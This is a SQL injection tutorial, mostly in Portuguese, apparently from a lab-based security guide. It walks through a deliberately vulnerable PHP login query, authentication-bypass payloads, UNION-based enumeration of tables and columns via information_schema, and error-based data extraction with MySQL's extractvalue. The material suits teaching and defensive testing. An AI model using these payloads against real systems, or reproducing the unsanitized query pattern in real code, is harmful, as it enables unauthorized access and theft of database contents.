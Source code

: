 # SQL Injection

O SQL injection, é uma das técnicas de vulnerabilidades web mais conhecida. Ela consiste em basicamente passar uma query SQL em um input que se o banco de dados não tiver um tratamento correto dessa entrada, pode acabar resultado em um vetor de ataque caso essa query seja maliciosa.

## Basic Bypass Authentication

Vamos supor que o backend trata a entrada de um login da seguinte forma abaixo.

```php
$user = $_POST['user'];
$password = $_POST['password'];

$query = "SELECT * FROM users WHERE user = '$user' AND pass '$password'"; 
```

O problema é que a query que irá para o banco de dados não está sendo filtrada corretamente, passando os parâmetros exatamente como o usuário digita e isso pode ocasionar a vulnerabilidade.

Vamos então utilizar o payload mais básico para explorar essa falha. A ideia a seguir, é utilizar o campo do usuário para bypassar a consulta. Primeiro temos que fechar as aspas simples e utilizar uma condição de **ou** para que assim a query retorne **true** e por fim comentar o resto para que seja ignorado, com isso irá trazer os resultados no banco de dados. O payload final fica da seguinte forma: `' or 1=1 #` ou `' or 1=1 --`. (_o comentário # e -- varia de acordo com o banco de dados_.)

Com isso, no banco de dados vai retornar o primeiro usuário que a consulta buscar, autenticando assim na aplicação com este usuário.

```sql
SELECT * FROM users WHERE user = '' or 1=1 -- ' AND pass 'password123" 
```

## Error-based SQL Injection

Esse é um tipo de injeção que retorna um erro para o usuário. Para triggar este erro, podemos passar, por exemplo, uma aspas simples para ver o que a aplicação retorna (essa aspas simples irá fechar a consulta no parâmetro que for passado). Se for vulnerável, geralmente provavelmente irá retornar uma mensagem de erro do tipo `Search SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax;`.

Com isso, podemos utilizar o `union` do SQL para unir uma nova consulta, e passar um %23 que significa o caractere # encodado, já que estamos enviando essas informações pela url (irá comentar o resto da query que estiver no banco). Além do **"**#", poderia ser passado também um ponto e vírgula ou uma aspas simples, depende de como a aplicação foi feita.

```
' or 1=1 union select 1; #
```

<div data-full-width="false"><figure><img src="../.gitbook/assets/error-based-sqli-1.png" alt=""><figcaption></figcaption></figure></div>

Assim, conseguimos descobrir a quantidade de colunas que possui, podemos tentar ir aumentando até não retornar nenhum erro.

Nesse caso, podemos descobrir que a quantidade de colunas na tabela de produtos são no total 6. Podemos perceber também que é refletido os valores que inserimos sendo criado uma nova visualização na consulta.

<figure><img src="../.gitbook/assets/error-based-sqli-2.png" alt=""><figcaption></figcaption></figure>

A consulta final ficará assim, sendo completamente correta e com isso retorna as informações.

```sql
SELECT * FROM products WHERE name like '%' or 1=1 union select 1, 2, 3, 4, 5, 6; #%'
```

<figure><img src="../.gitbook/assets/error-based-sqli-3 (1).png" alt=""><figcaption></figcaption></figure>

Agora que conseguimos descobrir corretamente a quantidade de colunas e fazer a consulta funcionar como queríamos, podemos tirar vantagem disso para buscar informações do banco de dados, podemos usar funções do MySQL (banco de dados utilizado) como `user()`, `database()`, `version()` entre outras.

<figure><img src="../.gitbook/assets/error-based-sqli-4.png" alt=""><figcaption></figcaption></figure>

Podemos agora buscar na tabela `information_schema` pela tabela que descobrirmos anteriormente.

```sql
' union select 1, table_name, 3, 4, 5, 6 from information_schema.tables WHERE TABLE_SCHEMA="lab"; #
```

<figure><img src="../.gitbook/assets/error-based-sqli-5.png" alt=""><figcaption></figcaption></figure>

Uma vez que descobrimos o nome das tabelas, podemos ver que existe a tabela `users`. Com isso, nós conseguimos descobrir as colunas:

```sql
' union select 1, column_name, 3, 4, 5, 6 from information_schema.columns where TABLE_SCHEMA="lab" and TABLE_NAME="users"; #
```

<figure><img src="../.gitbook/assets/error-based-sqli-6.png" alt=""><figcaption></figcaption></figure>

Agora que já sabemos quais os nome das colunas, podemos fazer a busca diretamente na tabela de `users`.

<figure><img src="../.gitbook/assets/error-based-sqli-7.png" alt=""><figcaption></figcaption></figure>

Pronto! Dessa forma que conseguimos explorar o Error-based SQL Injection.

### MySQL Error-Based SQL Injection Via ExtractValue Function

This is a specific attack technique that uses MySQL’s `extractvalue` function to access sensitive data from the database. ExtractValue is a MySQL function commonly used to extract data from XML documents. It takes two arguments: an XML document and an XPath expression. The function returns the value specified by the XPath query within the XML document.

Attackers can exploit this vulnerability by crafting malicious XPath expressions that, when processed by the `extractvalue` function, trigger an error and leak information about the database. Let's take a look how we can extract the database name:

```
extractvalue("something",concat(0x0a, database())); #
```

This payload injects the `database()` system variable into the XPath expression, causing MySQL to generate an error that reveals the database name.

<figure><img src="../.gitbook/assets/error-based-sqli-8.png" alt=""><figcaption></figcaption></figure>

We can also extract the table name from `information_schema`:

```
' and extractvalue("something",concat(0x0a, (select table_name from information_schema.tables WHERE TABLE_SCHEMA='lab' limit 0,1))); #
```

<figure><img src="../.gitbook/assets/error-based-sqli-9.png" alt=""><figcaption></figcaption></figure>

We can take a look at the database to see what the query it will look like:

<figure><img src="../.gitbook/assets/error-based-sqli-10.png" alt=""><figcaption></figcaption></figure>
